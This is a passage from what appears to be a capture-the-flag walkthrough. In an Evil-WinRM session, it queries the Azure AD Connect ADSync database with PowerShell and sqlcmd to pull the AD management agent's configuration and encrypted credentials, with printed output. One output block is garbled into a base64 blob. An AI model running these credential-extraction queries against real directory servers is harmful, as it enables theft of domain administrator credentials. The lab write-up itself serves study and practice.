     (1 rows affected)



#### Fetch Config Information

The next section of code a second query to get the config information:



    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()



Again, I can do that same query with `sqlcmd`, but it doesn't print the
full results:



    *Evil-WinRM* PS C:\> sqlcmd -d ADSync -Q 'SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = "AD"'
    private_configuration_xml                                                                                                                                                                                                                                        encrypted_configuration
    ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
    <adma-configuration>
     <forest-name>MEGABANK.LOCAL</forest-name>
     <forest-port>0</forest-port>
     <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
     <forest-login-user>administrator</forest-login-user>
     <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

    (1 rows affected)



I found [this stackoverflow
post](https://stackoverflow.com/questions/24345345/how-to-prevent-sqlcmd-truncation-with-for-xml-path-query-result)
which showed `-y 0` worked to get the full result:



    *Evil-WinRM* PS C:\> sqlcmd -y0 -d ADSync -Q 'SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = "AD"'
    <adma-configuration>
     <forest-name>MEGABANK.LOCAL</forest-name>
     <forest-port>0</forest-port>
     <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
     <forest-login-user>administrator</forest-login-user>
     <forest-login-domain>MEGABANK.LOCAL</forest-login-domain>
     <sign-and-seal>1</sign-and-seal>
     <ssl-bind crl-check="0">0</ssl-bind>
     <simple-bind>0</simple-bind>
     <default-ssl-strength>0</default-ssl-strength>
     <parameter-values>
      <parameter name="forest-login-domain" type="string" use="connectivity" dataType="String">MEGABANK.LOCAL</parameter>